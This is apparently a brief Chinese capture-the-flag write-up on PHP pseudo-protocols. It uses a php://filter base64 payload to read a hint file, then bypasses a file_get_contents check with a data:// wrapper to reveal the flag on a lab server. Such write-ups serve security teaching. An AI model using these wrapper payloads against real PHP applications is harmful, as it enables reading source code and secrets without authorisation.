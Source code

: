 #PHP伪协议 


php://filter/convert.base64-encode/resource=hint.php
=>
PD9waHANCi8vZ28gdG8gL3Rlc3QyMjIyMjIyMjIyMjIyLnBocA0KPz4=

base64decode
```php
<?php
//go to /test2222222222222.php
?>
```

因此
```url
http://1.14.71.254:28194/test2222222222222.php
```

```php
<?php   
	ini_set("max_execution_time", "180");   
	show_source(__FILE__);   
	include('flag.php');   
	$a= $_GET["a"];   
	if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){   
	    echo "success\n";       
	    echo $flag;   
	}   
?>
```

利用data协议绕过
```url
?a=data://text/plain,I want flag
```